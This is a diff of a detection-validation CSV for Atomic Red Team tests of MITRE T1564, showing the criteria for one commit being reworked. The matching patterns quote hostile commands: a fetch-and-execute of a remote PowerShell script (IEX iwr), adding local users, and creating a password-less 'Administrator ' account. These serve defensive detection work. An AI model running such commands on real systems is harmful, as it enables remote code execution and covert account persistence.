

Before and after one commit to secureworks/atomic-validation-criteria, a CSV file: windows/T1564.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
T1564 validation criteria rework

```diff
--- a/windows/T1564.csv
+++ b/windows/T1564.csv
@@ -1,7 +1,3 @@
-T1564,windows,6afe288a,Extract binary files via VBA
-_E_,AMSI,app_name~=PowerShell
-_E_,AMSI,scan_content~=$macro = [System.IO.File]::ReadAllText("
-_E_,AMSI,scan_content~=\atomics\T1564\src\T1564-macrocode.txt")
-_E_,AMSI,scan_content~=$macro = $macro -replace "aREPLACEMEa", "
-_E_,AMSI,scan_content~=\atomics\T1564\bin\extractme.bin"
+T1564,windows,6afe288a,Extract binary files via VBAS
+FYI,Test failed due to the non availability of MS Word in the current setup
 _E_,AMSI,scan_content~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
@@ -9,11 +5,2 @@ _E_,AMSI,scan_content~=IEX (iwr "https://raw.githubusercontent.com/redcanaryco/a
 _E_,AMSI,scan_content~=Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list~=$macro = [System.IO.File]::ReadAllText("
-_E_,ETW,event_data_list~=\atomics\T1564\src\T1564-macrocode.txt")
-_E_,ETW,event_data_list~=$macro = $macro -replace "aREPLACEMEa", "
-_E_,ETW,event_data_list~=\atomics\T1564\bin\extractme.bin"
-_E_,ETW,event_data_list~=[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
-_E_,ETW,event_data_list~=IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
-_E_,ETW,event_data_list~=Invoke-Maldoc -macroCode "$macro" -officeProduct "Word" -sub "Extract" -NoWrap
 
@@ -23,3 +10,2 @@ _E_,Process,cmdline~=net user $ ATOMIC123! /add /active:yes
 T1564,windows,5bb20389,Create an "Administrator " user (with a space on the end)
-_E_,AMSI,app_name~=PowerShell
 _E_,AMSI,scan_content~=New-LocalUser -Name "Administrator " -NoPassword
@@ -36,6 +22,2 @@ ARG,command_to_execute,win child class "Shell_TrayWnd" hide class "TrayClockWCla
 ARG,cleanup_command_to_execute,win child class "Shell_TrayWnd" show class "TrayClockWClass"
-_E_,AMSI,app_name~=PowerShell
-_E_,AMSI,scan_content*=cmd /c .*atomics.*ExternalPayloads.*nircmd.exe #{command_to_execute}
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list*=cmd /c .*atomics.*ExternalPayloads.*nircmd.exe #{command_to_execute}
+_E_,AMSI,scan_content~=nircmd.exe,scan_content~=#{command_to_execute}
```
